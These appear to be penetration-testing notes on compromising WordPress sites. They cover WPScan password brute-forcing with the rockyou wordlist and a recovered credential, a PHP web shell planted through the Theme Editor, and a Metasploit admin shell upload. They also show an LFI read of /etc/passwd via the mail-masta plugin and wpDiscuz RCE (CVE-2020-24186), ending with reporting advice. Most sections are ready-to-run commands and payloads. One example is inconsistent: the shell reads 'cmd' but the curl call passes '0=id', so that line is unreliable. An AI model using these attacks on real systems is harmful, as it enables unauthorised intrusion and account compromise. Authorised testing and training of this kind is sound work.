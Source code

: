 ### **Login Bruteforce**

- **Tools**: WPScan
- **Methods**:
    - `--password-attack xmlrpc` – uses `/xmlrpc.php` (preferred for speed)
    - `--password-attack wp-login` – uses `/wp-login.php`

- **Example**:
```bash
wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://TARGET
```
- **Successful credentials**: `john:firebird1`


---

### **Code Execution via Theme Editor**

- Log in as admin → Go to **Appearance > Theme Editor**
- Select an **inactive theme** (e.g., **Twenty Nineteen**)
- Edit a **non-critical file** like `404.php`:
```php
system($_GET['cmd']);
```
- Access web shell:
```bash
curl http://TARGET/wp-content/themes/twentynineteen/404.php?0=id
```
- Reverse shell can be initiated from here

---
### **Metasploit - Admin Shell Upload**

- Module: `exploit/unix/webapp/wp_admin_shell_upload`
- Uses admin creds to upload & execute plugin shell
- Required options:
    - `USERNAME`, `PASSWORD`, `RHOST`, `VHOST`, `LHOST`, `RPORT`

- **Command Execution**:
```bash
exploit
meterpreter > getuid
```
**Artifacts created**:
- Uploaded shell in `/wp-content/plugins/`
- Clean-up recommended, document artifacts in report

---

### **Exploiting Vulnerable Plugin: mail-masta**

- LFI via `pl` parameter
- No sanitization:
```php
include($_GET['pl']);
```
- Exploit:
```bash
curl http://TARGET/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

---

### **Exploiting Vulnerable Plugin: wpDiscuz 7.0.4**

- **Unauthenticated RCE** – File upload bypass
- CVE: **CVE-2020-24186**
- **Exploit script usage**:
```bash
python3 wp_discuz.py -u http://TARGET -p /?p=1
```
- If script fails, use:
```bash
curl http://TARGET/wp-content/uploads/YYYY/MM/webshell.php?cmd=id
```
- Clean up uploaded shell & note in report

---

### **Post-Exploitation Reporting**

Include the following in the report appendices:

- **Exploited systems** (IP, hostname, method)
- **Compromised accounts** (name, method, type)
- **Artifacts created** (e.g., shell paths)
- **System changes** (e.g., added users, group changes)